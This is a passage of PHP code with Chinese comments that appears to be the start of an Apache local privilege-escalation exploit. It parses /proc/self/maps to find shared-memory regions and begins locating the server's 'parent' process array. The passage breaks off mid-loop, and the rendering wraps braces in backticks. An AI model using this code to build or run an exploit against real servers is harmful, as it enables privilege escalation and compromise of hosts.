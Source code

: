 ```
array(2) `{`
    [0]=&gt;//第一个匹配的内存区域
    array(2) `{`
            [0]=&gt;
            int(140231115968512)//起始地址
            [1]=&gt;
        int(140231116066816)//结束地址
            [2]=&gt;
        string(4) "rw-s"//保护权限
    `}`
    [1]=&gt;//第二个匹配的内存区域
    array(2) `{`
        [0]=&gt;
        int(140231116201984)
        [1]=&gt;
        int(140231116718080)
            [2]=&gt;
        string(4) "rw-s"//保护权限
    `}`
`}`

*/
function get_mem_region($str)
`{`
    $file = fopen("/proc/self/maps","r");
    $result_index = 0;
    $result = array();
    while(!feof($file))`{`
        $line = fgets($file);
        if(strpos($line,$str))`{`
            $addr_len = 0;
            for(;$line[$addr_len]!='-';$addr_len++);

            $start_addr_str =  substr($line,0,$addr_len);
            $end_addr_str = substr($line,$addr_len+1,$addr_len);

            $result[$result_index][0] = hexdec($start_addr_str);
            $result[$result_index][1] = hexdec($end_addr_str);
            $result[$result_index][2] = substr($line,$addr_len*2+2,4);
            $result_index++;
        `}`
    `}`
    fclose($file);

    return $result;
`}`


function locate_parent_arr_addr()//获取共享内存中，parent数组的首地址
`{`
    $my_pid = getmypid();
    $shm_region = get_mem_region("/dev/zero");
    if(!count($shm_region))
        return 0;

    //parent数组项的大小是，每个0x20个字节
    //pid_t在我环境中，大小4字节
    $pid_t_size = 4;
    $parent_size = 0x24;

    //只检查共享内存的前0x1000字节(4KB)
    for($i = 0;$i&lt;0x1000;$i++)`{`
        $hit_count = 0;
```